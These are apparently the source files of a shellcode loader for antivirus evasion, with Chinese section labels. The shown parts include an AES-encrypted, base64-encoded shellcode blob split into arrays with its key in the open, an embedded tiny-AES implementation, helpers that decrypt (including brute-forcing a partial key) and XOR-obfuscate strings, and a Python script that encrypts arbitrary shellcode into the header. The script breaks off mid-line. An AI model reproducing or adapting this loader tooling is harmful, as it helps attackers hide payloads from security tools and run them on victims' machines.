static char encoding_table[] = { 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H',
'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P',
'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X',
'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f',
'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n',
'o', 'p', 'q', 'r', 's', 't', 'u', 'v',
'w', 'x', 'y', 'z', '0', '1', '2', '3',
'4', '5', '6', '7', '8', '9', '+', '/' };
static char* decoding_table = NULL;
static int mod_table[] = { 0, 2, 1 };
static int x64 = 1;
extern int AES_KEY_LENGTH;
void build_decoding_table();
unsigned char* base64_decode(const char* data, size_t input_length, size_t* output_length);
BOOL aes_decrypt(const uint8_t* key, size_t szKey, unsigned char* encrypted, size_t szEncrypted, unsigned char* unencryptedData);
unsigned char* xor_text(const char* buff);
wchar_t* char2wc(const char* buff);
sc.h 这里存储加密后的shellcode，使用python文件生成
#define _CRT_SECURE_NO_WARNINGS
#pragma once
#include <string.h>
const char sc_0[16] = {0x50,0x2b,0x32,0x37,0x52,0x73,0x6e,0x63,0x79,0x4c,0x79,0x53,0x31,0x44,0x59,0x45};
char sc_1[16] = {0x46,0x4b,0x4b,0x5a,0x36,0x54,0x51,0x6b,0x4f,0x7a,0x43,0x4c,0x62,0x52,0x31,0x32};
const char sc_2[16] = {0x66,0x44,0x62,0x4d,0x66,0x38,0x47,0x68,0x69,0x39,0x4f,0x34,0x58,0x48,0x67,0x33};
char sc_3[16] = {0x54,0x31,0x32,0x39,0x48,0x54,0x44,0x34,0x4a,0x50,0x50,0x50,0x34,0x5a,0x56,0x33};
const char sc_4[16] = {0x68,0x64,0x57,0x54,0x48,0x79,0x34,0x74,0x43,0x4b,0x41,0x42,0x6d,0x4d,0x32,0x51};
char sc_5[16] = {0x2f,0x45,0x59,0x44,0x66,0x76,0x56,0x36,0x79,0x35,0x49,0x32,0x68,0x4b,0x5a,0x6f};
const char sc_6[16] = {0x35,0x45,0x70,0x58,0x35,0x34,0x38,0x31,0x67,0x54,0x4a,0x75,0x64,0x36,0x75,0x62};
char sc_7[16] = {0x4f,0x36,0x72,0x52,0x59,0x5a,0x70,0x68,0x56,0x50,0x43,0x37,0x57,0x41,0x67,0x61};
const char sc_8[16] = {0x75,0x4e,0x73,0x6e,0x6d,0x56,0x76,0x44,0x7a,0x6f,0x62,0x69,0x36,0x79,0x4b,0x43};
char sc_9[16] = {0x49,0x72,0x2f,0x34,0x6a,0x4a,0x38,0x70,0x38,0x67,0x36,0x43,0x36,0x4e,0x54,0x62};
const char sc_10[16] = {0x70,0x71,0x34,0x4f,0x37,0x6a,0x4c,0x77,0x48,0x76,0x4e,0x76,0x6e,0x57,0x61,0x65};
char sc_11[16] = {0x77,0x39,0x4e,0x48,0x5a,0x39,0x66,0x5a,0x6f,0x33,0x58,0x4e,0x4d,0x4e,0x6f,0x32};
const char sc_12[16] = {0x77,0x38,0x73,0x47,0x64,0x55,0x62,0x6f,0x64,0x31,0x2f,0x44,0x69,0x6b,0x51,0x37};
char sc_13[16] = {0x38,0x44,0x6b,0x4f,0x57,0x4b,0x54,0x55,0x54,0x65,0x69,0x46,0x73,0x51,0x52,0x74};
const char sc_14[16] = {0x52,0x64,0x63,0x47,0x5a,0x63,0x51,0x36,0x5a,0x30,0x72,0x47,0x4b,0x48,0x6f,0x2f};
char sc_15[16] = {0x32,0x61,0x4c,0x54,0x55,0x69,0x55,0x55,0x61,0x51,0x5a,0x43,0x6b,0x6f,0x78,0x50};
const char sc_16[16] = {0x4f,0x34,0x76,0x57,0x72,0x67,0x69,0x6f,0x6a,0x53,0x79,0x76,0x46,0x64,0x68,0x69};
char sc_17[16] = {0x7a,0x75,0x32,0x2b,0x35,0x56,0x41,0x7a,0x34,0x67,0x5a,0x58,0x75,0x7a,0x32,0x6a};
const char sc_18[16] = {0x62,0x4d,0x54,0x32,0x54,0x52,0x2f,0x75,0x4a,0x4c,0x77,0x3d};
char sc[300];
int sc_length = 300;
void buildsc_0(){
memcpy(&sc[0], sc_0, 16);
memcpy(&sc[16], sc_1, 16);
memcpy(&sc[32], sc_2, 16);
memcpy(&sc[48], sc_3, 16);
memcpy(&sc[64], sc_4, 16);
memcpy(&sc[80], sc_5, 16);
memcpy(&sc[96], sc_6, 16);
memcpy(&sc[112], sc_7, 16);
memcpy(&sc[128], sc_8, 16);
memcpy(&sc[144], sc_9, 16);
memcpy(&sc[160], sc_10, 16);
memcpy(&sc[176], sc_11, 16);
memcpy(&sc[192], sc_12, 16);
memcpy(&sc[208], sc_13, 16);
memcpy(&sc[224], sc_14, 16);
memcpy(&sc[240], sc_15, 16);
memcpy(&sc[256], sc_16, 16);
memcpy(&sc[272], sc_17, 16);
memcpy(&sc[288], sc_18, 16);
}
void buildsc(){
buildsc_0();
}
BYTE key[] = "UAigTdFeIYYOvkQjbWUkdfNOffvcutRW";
aes.c 加密算法源文件
/*****************************************************************************/
/* Includes: */
/*****************************************************************************/
#include <string.h> // CBC mode, for memset
#include "aes.h"
#include <stdio.h>
/*****************************************************************************/
/* Defines: */
/*****************************************************************************/
// The number of columns comprising a state in AES. This is a constant in AES. Value=4
#define Nb 4
#if defined(AES256) && (AES256 == 1)
#define Nk 8
#define Nr 14
#elif defined(AES192) && (AES192 == 1)
#define Nk 6
#define Nr 12
#else
#define Nk 4 // The number of 32 bit words in a key.
#define Nr 10 // The number of rounds in AES Cipher.
#endif
// jcallan@github points out that declaring Multiply as a function
// reduces code size considerably with the Keil ARM compiler.
// See this link for more information: https://github.com/kokke/tiny-AES-C/pull/3
#ifndef MULTIPLY_AS_A_FUNCTION
#define MULTIPLY_AS_A_FUNCTION 0
#endif
/*****************************************************************************/
/* Private variables: */
/*****************************************************************************/
// state - array holding the intermediate results during decryption.
typedef uint8_t state_t[4][4];
// The lookup-tables are marked const so they can be placed in read-only storage instead of RAM
// The numbers below can be computed dynamically trading ROM for RAM -
// This can be useful in (embedded) bootloader applications, where ROM is often limited.
static const uint8_t sbox[256] = {
//0 1 2 3 4 5 6 7 8 9 A B C D E F
0x63, 0x7c, 0x77, 0x7b, 0xf2, 0x6b, 0x6f, 0xc5, 0x30, 0x01, 0x67, 0x2b, 0xfe, 0xd7, 0xab, 0x76,
0xca, 0x82, 0xc9, 0x7d, 0xfa, 0x59, 0x47, 0xf0, 0xad, 0xd4, 0xa2, 0xaf, 0x9c, 0xa4, 0x72, 0xc0,
0xb7, 0xfd, 0x93, 0x26, 0x36, 0x3f, 0xf7, 0xcc, 0x34, 0xa5, 0xe5, 0xf1, 0x71, 0xd8, 0x31, 0x15,
0x04, 0xc7, 0x23, 0xc3, 0x18, 0x96, 0x05, 0x9a, 0x07, 0x12, 0x80, 0xe2, 0xeb, 0x27, 0xb2, 0x75,
0x09, 0x83, 0x2c, 0x1a, 0x1b, 0x6e, 0x5a, 0xa0, 0x52, 0x3b, 0xd6, 0xb3, 0x29, 0xe3, 0x2f, 0x84,
0x53, 0xd1, 0x00, 0xed, 0x20, 0xfc, 0xb1, 0x5b, 0x6a, 0xcb, 0xbe, 0x39, 0x4a, 0x4c, 0x58, 0xcf,
0xd0, 0xef, 0xaa, 0xfb, 0x43, 0x4d, 0x33, 0x85, 0x45, 0xf9, 0x02, 0x7f, 0x50, 0x3c, 0x9f, 0xa8,
0x51, 0xa3, 0x40, 0x8f, 0x92, 0x9d, 0x38, 0xf5, 0xbc, 0xb6, 0xda, 0x21, 0x10, 0xff, 0xf3, 0xd2,
0xcd, 0x0c, 0x13, 0xec, 0x5f, 0x97, 0x44, 0x17, 0xc4, 0xa7, 0x7e, 0x3d, 0x64, 0x5d, 0x19, 0x73,
0x60, 0x81, 0x4f, 0xdc, 0x22, 0x2a, 0x90, 0x88, 0x46, 0xee, 0xb8, 0x14, 0xde, 0x5e, 0x0b, 0xdb,
0xe0, 0x32, 0x3a, 0x0a, 0x49, 0x06, 0x24, 0x5c, 0xc2, 0xd3, 0xac, 0x62, 0x91, 0x95, 0xe4, 0x79,
0xe7, 0xc8, 0x37, 0x6d, 0x8d, 0xd5, 0x4e, 0xa9, 0x6c, 0x56, 0xf4, 0xea, 0x65, 0x7a, 0xae, 0x08,
0xba, 0x78, 0x25, 0x2e, 0x1c, 0xa6, 0xb4, 0xc6, 0xe8, 0xdd, 0x74, 0x1f, 0x4b, 0xbd, 0x8b, 0x8a,
0x70, 0x3e, 0xb5, 0x66, 0x48, 0x03, 0xf6, 0x0e, 0x61, 0x35, 0x57, 0xb9, 0x86, 0xc1, 0x1d, 0x9e,
0xe1, 0xf8, 0x98, 0x11, 0x69, 0xd9, 0x8e, 0x94, 0x9b, 0x1e, 0x87, 0xe9, 0xce, 0x55, 0x28, 0xdf,
0x8c, 0xa1, 0x89, 0x0d, 0xbf, 0xe6, 0x42, 0x68, 0x41, 0x99, 0x2d, 0x0f, 0xb0, 0x54, 0xbb, 0x16 };
#if (defined(CBC) && CBC == 1) || (defined(ECB) && ECB == 1)
static const uint8_t rsbox[256] = {
0x52, 0x09, 0x6a, 0xd5, 0x30, 0x36, 0xa5, 0x38, 0xbf, 0x40, 0xa3, 0x9e, 0x81, 0xf3, 0xd7, 0xfb,
0x7c, 0xe3, 0x39, 0x82, 0x9b, 0x2f, 0xff, 0x87, 0x34, 0x8e, 0x43, 0x44, 0xc4, 0xde, 0xe9, 0xcb,
0x54, 0x7b, 0x94, 0x32, 0xa6, 0xc2, 0x23, 0x3d, 0xee, 0x4c, 0x95, 0x0b, 0x42, 0xfa, 0xc3, 0x4e,
0x08, 0x2e, 0xa1, 0x66, 0x28, 0xd9, 0x24, 0xb2, 0x76, 0x5b, 0xa2, 0x49, 0x6d, 0x8b, 0xd1, 0x25,
0x72, 0xf8, 0xf6, 0x64, 0x86, 0x68, 0x98, 0x16, 0xd4, 0xa4, 0x5c, 0xcc, 0x5d, 0x65, 0xb6, 0x92,
0x6c, 0x70, 0x48, 0x50, 0xfd, 0xed, 0xb9, 0xda, 0x5e, 0x15, 0x46, 0x57, 0xa7, 0x8d, 0x9d, 0x84,
0x90, 0xd8, 0xab, 0x00, 0x8c, 0xbc, 0xd3, 0x0a, 0xf7, 0xe4, 0x58, 0x05, 0xb8, 0xb3, 0x45, 0x06,
0xd0, 0x2c, 0x1e, 0x8f, 0xca, 0x3f, 0x0f, 0x02, 0xc1, 0xaf, 0xbd, 0x03, 0x01, 0x13, 0x8a, 0x6b,
0x3a, 0x91, 0x11, 0x41, 0x4f, 0x67, 0xdc, 0xea, 0x97, 0xf2, 0xcf, 0xce, 0xf0, 0xb4, 0xe6, 0x73,
0x96, 0xac, 0x74, 0x22, 0xe7, 0xad, 0x35, 0x85, 0xe2, 0xf9, 0x37, 0xe8, 0x1c, 0x75, 0xdf, 0x6e,
0x47, 0xf1, 0x1a, 0x71, 0x1d, 0x29, 0xc5, 0x89, 0x6f, 0xb7, 0x62, 0x0e, 0xaa, 0x18, 0xbe, 0x1b,
0xfc, 0x56, 0x3e, 0x4b, 0xc6, 0xd2, 0x79, 0x20, 0x9a, 0xdb, 0xc0, 0xfe, 0x78, 0xcd, 0x5a, 0xf4,
0x1f, 0xdd, 0xa8, 0x33, 0x88, 0x07, 0xc7, 0x31, 0xb1, 0x12, 0x10, 0x59, 0x27, 0x80, 0xec, 0x5f,
0x60, 0x51, 0x7f, 0xa9, 0x19, 0xb5, 0x4a, 0x0d, 0x2d, 0xe5, 0x7a, 0x9f, 0x93, 0xc9, 0x9c, 0xef,
0xa0, 0xe0, 0x3b, 0x4d, 0xae, 0x2a, 0xf5, 0xb0, 0xc8, 0xeb, 0xbb, 0x3c, 0x83, 0x53, 0x99, 0x61,
0x17, 0x2b, 0x04, 0x7e, 0xba, 0x77, 0xd6, 0x26, 0xe1, 0x69, 0x14, 0x63, 0x55, 0x21, 0x0c, 0x7d };
#endif
// The round constant word array, Rcon[i], contains the values given by
// x to the power (i-1) being powers of x (x is denoted as {02}) in the field GF(2^8)
static const uint8_t Rcon[11] = {
0x8d, 0x01, 0x02, 0x04, 0x08, 0x10, 0x20, 0x40, 0x80, 0x1b, 0x36 };
/*
* Jordan Goulder points out in PR #12 (https://github.com/kokke/tiny-AES-C/pull/12),
* that you can remove most of the elements in the Rcon array, because they are unused.
*
* From Wikipedia's article on the Rijndael key schedule @ https://en.wikipedia.org/wiki/Rijndael_key_schedule#Rcon
*
* "Only the first some of these constants are actually used ?up to rcon[10] for AES-128 (as 11 round keys are needed),
* up to rcon[8] for AES-192, up to rcon[7] for AES-256. rcon[0] is not used in AES algorithm."
*/
/*****************************************************************************/
/* Private functions: */
/*****************************************************************************/
/*
static uint8_t getSBoxValue(uint8_t num)
{
return sbox[num];
}
*/
#define getSBoxValue(num) (sbox[(num)])
// This function produces Nb(Nr+1) round keys. The round keys are used in each round to decrypt the states.
static void KeyExpansion(uint8_t* RoundKey, const uint8_t* Key)
{
unsigned i, j, k;
uint8_t tempa[4]; // Used for the column/row operations
// The first round key is the key itself.
for (i = 0; i < Nk; ++i)
{
RoundKey[(i * 4) + 0] = Key[(i * 4) + 0];
RoundKey[(i * 4) + 1] = Key[(i * 4) + 1];
RoundKey[(i * 4) + 2] = Key[(i * 4) + 2];
RoundKey[(i * 4) + 3] = Key[(i * 4) + 3];
}
// All other round keys are found from the previous round keys.
for (i = Nk; i < Nb * (Nr + 1); ++i)
{
{
k = (i - 1) * 4;
tempa[0] = RoundKey[k + 0];
tempa[1] = RoundKey[k + 1];
tempa[2] = RoundKey[k + 2];
tempa[3] = RoundKey[k + 3];
}
if (i % Nk == 0)
{
// This function shifts the 4 bytes in a word to the left once.
// [a0,a1,a2,a3] becomes [a1,a2,a3,a0]
// Function RotWord()
{
const uint8_t u8tmp = tempa[0];
tempa[0] = tempa[1];
tempa[1] = tempa[2];
tempa[2] = tempa[3];
tempa[3] = u8tmp;
}
// SubWord() is a function that takes a four-byte input word and
// applies the S-box to each of the four bytes to produce an output word.
// Function Subword()
{
tempa[0] = getSBoxValue(tempa[0]);
tempa[1] = getSBoxValue(tempa[1]);
tempa[2] = getSBoxValue(tempa[2]);
tempa[3] = getSBoxValue(tempa[3]);
}
tempa[0] = tempa[0] ^ Rcon[i / Nk];
}
#if defined(AES256) && (AES256 == 1)
if (i % Nk == 4)
{
// Function Subword()
{
tempa[0] = getSBoxValue(tempa[0]);
tempa[1] = getSBoxValue(tempa[1]);
tempa[2] = getSBoxValue(tempa[2]);
tempa[3] = getSBoxValue(tempa[3]);
}
}
#endif
j = i * 4; k = (i - Nk) * 4;
RoundKey[j + 0] = RoundKey[k + 0] ^ tempa[0];
RoundKey[j + 1] = RoundKey[k + 1] ^ tempa[1];
RoundKey[j + 2] = RoundKey[k + 2] ^ tempa[2];
RoundKey[j + 3] = RoundKey[k + 3] ^ tempa[3];
}
}
void AES_init_ctx(struct AES_ctx* ctx, const uint8_t* key)
{
KeyExpansion(ctx->RoundKey, key);
}
#if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))
void AES_init_ctx_iv(struct AES_ctx* ctx, const uint8_t* key, const uint8_t* iv)
{
KeyExpansion(ctx->RoundKey, key);
memcpy(ctx->Iv, iv, AES_BLOCKLEN);
}
void AES_ctx_set_iv(struct AES_ctx* ctx, const uint8_t* iv)
{
memcpy(ctx->Iv, iv, AES_BLOCKLEN);
}
#endif
// This function adds the round key to state.
// The round key is added to the state by an XOR function.
static void AddRoundKey(uint8_t round, state_t* state, const uint8_t* RoundKey)
{
uint8_t i, j;
for (i = 0; i < 4; ++i)
{
for (j = 0; j < 4; ++j)
{
(*state)[i][j] ^= RoundKey[(round * Nb * 4) + (i * Nb) + j];
}
}
}
// The SubBytes Function Substitutes the values in the
// state matrix with values in an S-box.
static void SubBytes(state_t* state)
{
uint8_t i, j;
for (i = 0; i < 4; ++i)
{
for (j = 0; j < 4; ++j)
{
(*state)[j][i] = getSBoxValue((*state)[j][i]);
}
}
}
// The ShiftRows() function shifts the rows in the state to the left.
// Each row is shifted with different offset.
// Offset = Row number. So the first row is not shifted.
static void ShiftRows(state_t* state)
{
uint8_t temp;
// Rotate first row 1 columns to left
temp = (*state)[0][1];
(*state)[0][1] = (*state)[1][1];
(*state)[1][1] = (*state)[2][1];
(*state)[2][1] = (*state)[3][1];
(*state)[3][1] = temp;
// Rotate second row 2 columns to left
temp = (*state)[0][2];
(*state)[0][2] = (*state)[2][2];
(*state)[2][2] = temp;
temp = (*state)[1][2];
(*state)[1][2] = (*state)[3][2];
(*state)[3][2] = temp;
// Rotate third row 3 columns to left
temp = (*state)[0][3];
(*state)[0][3] = (*state)[3][3];
(*state)[3][3] = (*state)[2][3];
(*state)[2][3] = (*state)[1][3];
(*state)[1][3] = temp;
}
static uint8_t xtime(uint8_t x)
{
return ((x << 1) ^ (((x >> 7) & 1) * 0x1b));
}
// MixColumns function mixes the columns of the state matrix
static void MixColumns(state_t* state)
{
uint8_t i;
uint8_t Tmp, Tm, t;
for (i = 0; i < 4; ++i)
{
t = (*state)[i][0];
Tmp = (*state)[i][0] ^ (*state)[i][1] ^ (*state)[i][2] ^ (*state)[i][3];
Tm = (*state)[i][0] ^ (*state)[i][1]; Tm = xtime(Tm); (*state)[i][0] ^= Tm ^ Tmp;
Tm = (*state)[i][1] ^ (*state)[i][2]; Tm = xtime(Tm); (*state)[i][1] ^= Tm ^ Tmp;
Tm = (*state)[i][2] ^ (*state)[i][3]; Tm = xtime(Tm); (*state)[i][2] ^= Tm ^ Tmp;
Tm = (*state)[i][3] ^ t; Tm = xtime(Tm); (*state)[i][3] ^= Tm ^ Tmp;
}
}
// Multiply is used to multiply numbers in the field GF(2^8)
// Note: The last call to xtime() is unneeded, but often ends up generating a smaller binary
// The compiler seems to be able to vectorize the operation better this way.
// See https://github.com/kokke/tiny-AES-c/pull/34
#if MULTIPLY_AS_A_FUNCTION
static uint8_t Multiply(uint8_t x, uint8_t y)
{
return (((y & 1) * x) ^
((y >> 1 & 1) * xtime(x)) ^
((y >> 2 & 1) * xtime(xtime(x))) ^
((y >> 3 & 1) * xtime(xtime(xtime(x)))) ^
((y >> 4 & 1) * xtime(xtime(xtime(xtime(x)))))); /* this last call to xtime() can be omitted */
}
#else
#define Multiply(x, y) \
( ((y & 1) * x) ^ \
((y>>1 & 1) * xtime(x)) ^ \
((y>>2 & 1) * xtime(xtime(x))) ^ \
((y>>3 & 1) * xtime(xtime(xtime(x)))) ^ \
((y>>4 & 1) * xtime(xtime(xtime(xtime(x)))))) \
#endif
#if (defined(CBC) && CBC == 1) || (defined(ECB) && ECB == 1)
/*
static uint8_t getSBoxInvert(uint8_t num)
{
return rsbox[num];
}
*/
#define getSBoxInvert(num) (rsbox[(num)])
// MixColumns function mixes the columns of the state matrix.
// The method used to multiply may be difficult to understand for the inexperienced.
// Please use the references to gain more information.
static void InvMixColumns(state_t* state)
{
int i;
uint8_t a, b, c, d;
for (i = 0; i < 4; ++i)
{
a = (*state)[i][0];
b = (*state)[i][1];
c = (*state)[i][2];
d = (*state)[i][3];
(*state)[i][0] = Multiply(a, 0x0e) ^ Multiply(b, 0x0b) ^ Multiply(c, 0x0d) ^ Multiply(d, 0x09);
(*state)[i][1] = Multiply(a, 0x09) ^ Multiply(b, 0x0e) ^ Multiply(c, 0x0b) ^ Multiply(d, 0x0d);
(*state)[i][2] = Multiply(a, 0x0d) ^ Multiply(b, 0x09) ^ Multiply(c, 0x0e) ^ Multiply(d, 0x0b);
(*state)[i][3] = Multiply(a, 0x0b) ^ Multiply(b, 0x0d) ^ Multiply(c, 0x09) ^ Multiply(d, 0x0e);
}
}
// The SubBytes Function Substitutes the values in the
// state matrix with values in an S-box.
static void InvSubBytes(state_t* state)
{
uint8_t i, j;
for (i = 0; i < 4; ++i)
{
for (j = 0; j < 4; ++j)
{
(*state)[j][i] = getSBoxInvert((*state)[j][i]);
}
}
}
static void InvShiftRows(state_t* state)
{
uint8_t temp;
// Rotate first row 1 columns to right
temp = (*state)[3][1];
(*state)[3][1] = (*state)[2][1];
(*state)[2][1] = (*state)[1][1];
(*state)[1][1] = (*state)[0][1];
(*state)[0][1] = temp;
// Rotate second row 2 columns to right
temp = (*state)[0][2];
(*state)[0][2] = (*state)[2][2];
(*state)[2][2] = temp;
temp = (*state)[1][2];
(*state)[1][2] = (*state)[3][2];
(*state)[3][2] = temp;
// Rotate third row 3 columns to right
temp = (*state)[0][3];
(*state)[0][3] = (*state)[1][3];
(*state)[1][3] = (*state)[2][3];
(*state)[2][3] = (*state)[3][3];
(*state)[3][3] = temp;
}
#endif // #if (defined(CBC) && CBC == 1) || (defined(ECB) && ECB == 1)
// Cipher is the main function that encrypts the PlainText.
static void Cipher(state_t* state, const uint8_t* RoundKey)
{
uint8_t round = 0;
// Add the First round key to the state before starting the rounds.
AddRoundKey(0, state, RoundKey);
// There will be Nr rounds.
// The first Nr-1 rounds are identical.
// These Nr rounds are executed in the loop below.
// Last one without MixColumns()
for (round = 1; ; ++round)
{
SubBytes(state);
ShiftRows(state);
if (round == Nr) {
break;
}
MixColumns(state);
AddRoundKey(round, state, RoundKey);
}
// Add round key to last round
AddRoundKey(Nr, state, RoundKey);
}
#if (defined(CBC) && CBC == 1) || (defined(ECB) && ECB == 1)
static void InvCipher(state_t* state, const uint8_t* RoundKey)
{
uint8_t round = 0;
// Add the First round key to the state before starting the rounds.
AddRoundKey(Nr, state, RoundKey);
// There will be Nr rounds.
// The first Nr-1 rounds are identical.
// These Nr rounds are executed in the loop below.
// Last one without InvMixColumn()
for (round = (Nr - 1); ; --round)
{
InvShiftRows(state);
InvSubBytes(state);
AddRoundKey(round, state, RoundKey);
if (round == 0) {
break;
}
InvMixColumns(state);
}
}
#endif // #if (defined(CBC) && CBC == 1) || (defined(ECB) && ECB == 1)
/*****************************************************************************/
/* Public functions: */
/*****************************************************************************/
#if defined(ECB) && (ECB == 1)
void AES_ECB_encrypt(const struct AES_ctx* ctx, uint8_t* buf)
{
// The next function call encrypts the PlainText with the Key using AES algorithm.
Cipher((state_t*)buf, ctx->RoundKey);
}
void AES_ECB_decrypt(const struct AES_ctx* ctx, uint8_t* buf)
{
// The next function call decrypts the PlainText with the Key using AES algorithm.
InvCipher((state_t*)buf, ctx->RoundKey);
}
#endif // #if defined(ECB) && (ECB == 1)
#if defined(CBC) && (CBC == 1)
static void XorWithIv(uint8_t* buf, const uint8_t* Iv)
{
uint8_t i;
for (i = 0; i < AES_BLOCKLEN; ++i) // The block in AES is always 128bit no matter the key size
{
buf[i] ^= Iv[i];
}
}
void AES_CBC_encrypt_buffer(struct AES_ctx* ctx, uint8_t* buf, size_t length)
{
size_t i;
uint8_t* Iv = ctx->Iv;
for (i = 0; i < length; i += AES_BLOCKLEN)
{
XorWithIv(buf, Iv);
Cipher((state_t*)buf, ctx->RoundKey);
Iv = buf;
buf += AES_BLOCKLEN;
}
/* store Iv in ctx for next call */
memcpy(ctx->Iv, Iv, AES_BLOCKLEN);
}
void AES_CBC_decrypt_buffer(struct AES_ctx* ctx, uint8_t* buf, size_t length)
{
size_t i;
uint8_t storeNextIv[AES_BLOCKLEN];
for (i = 0; i < length; i += AES_BLOCKLEN)
{
memcpy(storeNextIv, buf, AES_BLOCKLEN);
InvCipher((state_t*)buf, ctx->RoundKey);
XorWithIv(buf, ctx->Iv);
memcpy(ctx->Iv, storeNextIv, AES_BLOCKLEN);
buf += AES_BLOCKLEN;
}
}
#endif // #if defined(CBC) && (CBC == 1)
#if defined(CTR) && (CTR == 1)
/* Symmetrical operation: same function for encrypting as for decrypting. Note any IV/nonce should never be reused with the same key */
void AES_CTR_xcrypt_buffer(struct AES_ctx* ctx, uint8_t* buf, size_t length)
{
uint8_t buffer[AES_BLOCKLEN];
size_t i;
int bi;
for (i = 0, bi = AES_BLOCKLEN; i < length; ++i, ++bi)
{
if (bi == AES_BLOCKLEN) /* we need to regen xor compliment in buffer */
{
memcpy(buffer, ctx->Iv, AES_BLOCKLEN);
Cipher((state_t*)buffer, ctx->RoundKey);
/* Increment Iv and handle overflow */
for (bi = (AES_BLOCKLEN - 1); bi >= 0; --bi)
{
/* inc will overflow */
if (ctx->Iv[bi] == 255)
{
ctx->Iv[bi] = 0;
continue;
}
ctx->Iv[bi] += 1;
break;
}
bi = 0;
}
buf[i] = (buf[i] ^ buffer[bi]);
}
}
#endif // #if defined(CTR) && (CTR == 1)
helpers.c
#define _CRT_SECURE_NO_WARNINGS
#include "helpers.h"
int AES_KEY_LENGTH = 32;
void build_decoding_table() {
decoding_table = (char*)malloc(256);
if (decoding_table == NULL) {
DEBUG("[x] Cannot allocate memory for the decoding table\n");
exit(-1);
}
for (int i = 0; i < 64; i++) {
decoding_table[(unsigned char)encoding_table[i]] = i;
}
}
unsigned char* base64_decode(const char* data, size_t input_length, size_t* output_length) {
if (decoding_table == NULL) build_decoding_table();
if (input_length % 4 != 0) return NULL;
*output_length = input_length / 4 * 3;
if (data[input_length - 1] == '=') {
(*output_length)--;
}
if (data[input_length - 2] == '=') (*output_length)--;
unsigned char* decoded_data = (unsigned char*)malloc(*output_length);
if (decoded_data == NULL) return NULL;
for (int i = 0, j = 0; i < input_length;) {
DWORD sextet_a = data[i] == '=' ? 0 & i++ : decoding_table[data[i++]];
DWORD sextet_b = data[i] == '=' ? 0 & i++ : decoding_table[data[i++]];
DWORD sextet_c = data[i] == '=' ? 0 & i++ : decoding_table[data[i++]];
DWORD sextet_d = data[i] == '=' ? 0 & i++ : decoding_table[data[i++]];
DWORD triple = (sextet_a << 3 * 6)
+ (sextet_b << 2 * 6)
+ (sextet_c << 1 * 6)
+ (sextet_d << 0 * 6);
if (j < *output_length) decoded_data[j++] = (triple >> 2 * 8) & 0xFF;
if (j < *output_length) decoded_data[j++] = (triple >> 1 * 8) & 0xFF;
if (j < *output_length) decoded_data[j++] = (triple >> 0 * 8) & 0xFF;
}
return decoded_data;
}
BOOL aes_decrypt(const uint8_t* key, size_t szKey, unsigned char* encrypted, size_t szEncrypted, unsigned char* unencryptedData) {
// First 16 bytes represent the IV.
uint8_t* iv = (uint8_t*)calloc(16, sizeof(uint8_t));
if (!iv) {
DEBUG("[x] AES decryption failed (couldn't allocate IV).\n");
return FALSE;
}
memcpy(iv, encrypted, 16 * sizeof(uint8_t));
size_t szEncryptedData = szEncrypted - 16;
memcpy(unencryptedData, &encrypted[16], szEncryptedData * sizeof(unsigned char));
struct AES_ctx ctx;
// If the provided key is not complete (length != 32 bytes), a bruteforce is attempted.
// Iterates over the missing bytes using the provided partial key as input.
if (AES_KEY_LENGTH == szKey) {
AES_init_ctx_iv(&ctx, key, iv);
AES_CBC_decrypt_buffer(&ctx, unencryptedData, szEncryptedData);
free(iv);
return TRUE;
}
else {
DWORD missingKeyLength = AES_KEY_LENGTH - szKey;
DEBUG("[-] Provided key is missing %i bytes\n", missingKeyLength);
uint8_t* missingKey = (uint8_t*)calloc(missingKeyLength, sizeof(unsigned char));
uint8_t* fullKey = (uint8_t*)calloc(AES_KEY_LENGTH + 1, sizeof(unsigned char));
if (!missingKey || !fullKey) {
DEBUG("[x] AES decryption failed (couldn't allocate key elements).\n");
return FALSE;
}
uint8_t index = 0;
memcpy(fullKey, key, (AES_KEY_LENGTH - missingKeyLength) * sizeof(uint8_t));
while (TRUE) {
while (missingKey[index] <= 254) {
memcpy(&fullKey[AES_KEY_LENGTH - missingKeyLength], missingKey, missingKeyLength * sizeof(uint8_t));
AES_init_ctx_iv(&ctx, fullKey, iv);
AES_CBC_decrypt_buffer(&ctx, unencryptedData, szEncryptedData);
uint8_t padding = unencryptedData[szEncryptedData - 1];
// Validate the decryption by checking that the last 4 bytes are egal to 0.
if (unencryptedData[szEncryptedData - padding - 4] == 0x0 && unencryptedData[szEncryptedData - padding - 3] == 0x0 && unencryptedData[szEncryptedData - padding - 2] == 0x0 && unencryptedData[szEncryptedData - padding - 1] == 0x0) {
free(iv);
free(missingKey);
free(fullKey);
return TRUE;
}
else {
memcpy(unencryptedData, &encrypted[16], szEncryptedData * sizeof(unsigned char));
}
missingKey[index] += 1;
}
for (uint8_t i = 0; i < missingKeyLength; i++) {
if (missingKey[i] == 255) {
missingKey[i] = 0;
if (i < missingKeyLength - 1) {
missingKey[i + 1] += 1;
}
else {
DEBUG("[x] AES decryption failed could not find the key.\n");
return FALSE;
}
}
}
}
}
}
unsigned char* xor_text(const char* buff) {
size_t size = strlen(buff);
size_t osize;
unsigned char* result = base64_decode(buff, size, &osize);
for (int i = 0; i < osize; i++) {
result[i] = result[i] ^ 0xA7;
}
return result;
}
wchar_t* char2wc(const char* buff) {
const size_t cSize = strlen(buff) + 1;
wchar_t* wc = malloc(cSize * sizeof(wchar_t));
mbstowcs(wc, buff, cSize);
return wc;
}
python文件，加密生成shellcode，随机生成加密key
from base64 import b64encode
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from Crypto import Random
import os
import sys
import string
import random
#key = b"HrKHQxhUNxWuQxYdVEOZhoYbRcHeFmHS"
key = ''.join(random.choice(string.ascii_letters) for i in range(32))
key = key.encode()
if len(sys.argv) == 3:
key = sys.argv[2].encode()
try:
file = open(sys.argv[1], 'rb')
data = file.read()
file.close()
except IndexError:
data = shellcode
data += b'\x00\x00\x00\x00'
iv = Random.new().read(AES.block_size)
cipher = AES.new(key, AES.MODE_CBC, iv)
enc = cipher.encrypt(pad(data, AES.block_size))
ciphertext = b64encode(iv + enc)
file = open('../sc.h', 'w')
i = 1
k = 0
file.write('#define _CRT_SECURE_NO_WARNINGS\n#pragma once\n#include <string.h>\n\n')
for j in range(len(ciphertext)):
elt = ciphertext[j]
if(i%16 == 1):
if(i//16 % 2 == 0):
file.write('const char sc_' + format(i//16) + '[16] = {')
else:
